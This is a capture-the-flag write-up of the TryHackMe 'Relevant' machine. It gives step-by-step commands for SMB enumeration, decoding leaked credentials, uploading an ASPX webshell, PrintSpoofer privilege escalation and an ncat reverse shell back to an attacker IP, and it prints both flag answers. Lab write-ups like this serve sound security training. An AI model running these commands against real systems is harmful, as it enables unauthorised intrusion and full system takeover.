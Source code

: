 ```yaml
---
layout: post
title: Relevant
date: 2023-01-30 11:00 +0700
categories: [THM, medium]
---
```


### Introduction

[Relevant] is a medium CTF on TryHackMe. You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.

I did the machine without the use of metasploit but you can use It as to complete it too.


![relevant](https://tryhackme-images.s3.amazonaws.com/room-icons/10524728b2b462e8d164efe4e67ed087.jpeg)


---

Let's start scanning the machine with nmap.

We can see some ports open.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![scan](/images/THM/relevant/Captura.PNG)

We will start looking through smb.

{ *I used "gest" like username but my intention was to use "guest" xD.* }

```sh
smbmap -u <user> -p <password> -H <IP>
```

![smbmap dirs](/images/THM/relevant/Captura1.PNG)

We can see there are 4 Folders but we only have access to two of them.

If we look the content of the folder **nt4wrksv**, we can see there is a file called **passwords.txt**

```sh
smbmap -u <user> -p <password> -r 'nt4wrksv' -H <IP>
```

![smbmap dir nt4](/images/THM/relevant/Captura2.PNG)

Let's download It.

```sh
smbmap -u <user> -p <password> -H <IP> --download 'nt4wrksv\passwords.txt'
```

![smbmap down file](/images/THM/relevant/Captura3.PNG)

If we see the content we can see is encoded in base64.

```sh
cat <filename>
```

![cat file](/images/THM/relevant/Captura4.PNG)

Time to desencode It.

```sh
echo 'code' | base64 -d
```

![base64 bob](/images/THM/relevant/Captura5.PNG)

![base64 bill](/images/THM/relevant/Captura6.PNG)

Let's try to use psexec with both users and try if we could get a shell.

```sh
python3 /usr/local/bin/psexec.py <user>@<IP>
or
psexec.py <user>@<IP>
```

![psexec bob](/images/THM/relevant/Captura8.PNG)

![psexec bill](/images/THM/relevant/Captura9.PNG)

Both trys didn't work so, It's time to look more the 2 Webs.

Web in 80 and 49663 have the same default.

![IIS web](/images/THM/relevant/Captura10.PNG)

This time I will use dirbuster to change a little the enumeration tool.

![dirbuster](/images/THM/relevant/Captura11.PNG)

The scan don't return nothing in both webs, but if we investigate a little, we can see that the smb folder is accessible via the web.

![Web dir](/images/THM/relevant/Captura12.PNG)

We're going to take advantage from our permissions, because we can write so, I uploaded a webshell.

```sh
smbmap -u <user> -p <password> -H <IP> --upload '/usr/share/webshells/aspx/cmdasp.aspx' 'nt4wrksv\cmdasp.aspx'
```

![WebShell upload](/images/THM/relevant/Captura13.PNG)

We can see It uploaded fine and we can write commands on It.

![WebShell](/images/THM/relevant/Captura14.PNG)

If we search a little we can find the user flag in the **Bob Desktop**.

```sh
type ..\..\..\Users\Bob\Desktop\user.txt
or
type C:\Users\Bob\Desktop\user.txt
```

![user flag](/images/THM/relevant/Captura15.PNG)

- User.txt
>Answer: THM{fdk4ka34vk346ksxfr21tg789ktf45}

It's time to elevate our privileges.

```sh
whoami
```

![whoami](/images/THM/relevant/Captura17.PNG)

So we look what privileges We've with our user

We can see our user have the **SeImpersonatePrivilege** which we can abuse this privilege to elevate our privileges.

If you want to know more you can search about **RootenPotato**.

```sh
whoami /priv
```

![whoami privi](/images/THM/relevant/Captura16.PNG)

In this case we are going to use [PrintSpoofer] that is a new tool more new and work better in windows 10 and Server 2016/2019.

![printspoofer github](/images/THM/relevant/Captura18.PNG)

We will upload the **PrintSpoofer** to the server.

```sh
smbmap -u <user> -p <password> -H <IP> --upload '<path to file>' 'nt4wrksv\<same name>'
```

![PrintSpoofer upload](/images/THM/relevant/Captura19.PNG)

And **ncat** too, to get a rever shell with the SYSTEM privileges.

```sh
smbmap -u <user> -p <password> -H <IP> --upload '/usr/share/windows-resources/ncat/ncat.exe' 'nt4wrksv\ncat.exe'
```

![ncat upload](/images/THM/relevant/Captura20.PNG)

Now we execute the command.

```sh
C:\inetpub\wwwroot\nt4wrksv\PrintSpoofer64.exe -c "c:\inetpub\wwwroot\nt4wrksv\ncat.exe <IP> <port> -e cmd"
```

![Execution](/images/THM/relevant/Captura21.PNG)

And if all is okay we can see we got a shell with the SYSTEM perms.

```sh
nc -lvnp 4444
whoami
```

![nc listener](/images/THM/relevant/Captura22.PNG)

Now we can check the root flag and we've complete this machine.

```sh
cd C:\Users\Administrator\Desktop
type root.txt
or
type C:\Users\Administrator\Desktop\root.txt
```

![root flag](/images/THM/relevant/Captura23.PNG)

- Root.txt
>Answer: THM{1fk5kf469devly1gl320zafgl345pv}

[relevant]:https://tryhackme.com/room/relevant
[printspoofer]:https://github.com/itm4n/PrintSpoofer
